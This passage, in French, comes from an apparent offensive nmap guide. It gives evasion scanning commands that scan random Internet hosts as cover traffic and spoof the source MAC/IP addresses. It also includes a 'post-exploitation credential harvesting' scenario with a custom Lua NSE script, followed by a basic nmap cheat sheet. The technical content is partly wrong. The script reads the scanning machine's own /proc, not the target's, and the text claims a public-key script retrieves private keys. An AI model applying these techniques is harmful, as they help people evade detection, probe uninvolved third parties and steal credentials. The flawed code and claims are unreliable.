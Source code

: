 Approche Technique:
1. Randomiser l'Ordre de Scan et le Timing:
   `nmap -sS -iR 1000 --randomize-hosts -T paranoid --scan-delay 30s -p-`
   o -iR 1000: Scan d'hôtes Internet aléatoires comme trafic de couverture.
   o --scan-delay 30s: Ralentit les sondes pour se mélanger au trafic légitime.

2. Usurper les Adresses MAC/IP Source:
   `nmap -e eth1 --spoof-mac 0A:1B:2C:3D:4E:5F -S 192.168.50.100 -p443 [target]`
   o Utilisez une NIC jetable (eth1) et une IP/MAC jetable.

Point Clé:
* Utilisez --spoof-mac et -T paranoid pour les environnements à enjeux élevés.

### 5.6 SCÉNARIO 6: RÉCOLTE D'IDENTIFIANTS POST-EXPLOITATION

Objectif: Extraire les identifiants d'un hôte Linux compromis.

Approche Technique:
1. Rechercher les Clés SSH et les Fichiers de Configuration:
   `nmap -p22 --script ssh-publickey-acquisition --script-args ssh.usernames='root,ubuntu' [target]`
   o Acquiert les clés publiques/privées pour le mouvement latéral.

2. Extraire les Mots de Passe de la Mémoire:
   Utilisez linux-ssh-hunter (script NSE personnalisé) pour scanner la mémoire du processus:
   ```
   description = "Recherche /proc/*/environ pour les identifiants SSH"
   action = function(host, port)
       local creds = {}
       local procs = assert(io.popen("find /proc -maxdepth 1 -name '[0-9]*'"))
       for pid in procs:lines() do
           local f = io.open(pid .. "/environ", "rb")
           if f then
               local data = f:read("*a")
               if data:match("SSH_AUTH_SOCK") then
                   table.insert(creds, data)
               end
           end
       end
       return stdnse.format_output(true, creds)
   end
   ```

Point Clé:
* Les scripts NSE personnalisés peuvent automatiser les flux de travail post-exploitation sans déposer d'outils sur le disque.

## 6. AIDE-MÉMOIRE NMAP

### 6.1. BASES

| Commande Nmap | Description |
|------------------|----------------|
| nmap [target] | Scan d'une Cible Unique: Effectue un scan basique sur la cible spécifiée (adresse IP ou nom d'hôte). |
| nmap <target1> [target2] | Scan de Multiples Cibles: Scanne plusieurs cibles spécifiées. |
| nmap 192.168.1.1-50 | Scan d'une Plage d'IPs: Scanne les adresses IP de 192.168.1.1 à 192.168.1.50. |
| nmap 192.168.1.0/24 | Scan d'un Sous-réseau Entier: Scanne toutes les 256 adresses IP dans le sous-réseau 192.168.1.0. |
| nmap -p 22,80,443 [target] | Scan de Ports Spécifiques: Vérifie si les ports 22, 80 et 443 sont ouverts sur la cible. |
| nmap -p- [target] | Scan de Tous les Ports: Scanne tous les 65 535 ports TCP sur la cible. |
| nmap -F [target] | Scan Rapide: Scanne rapidement les 100 ports les plus courants. |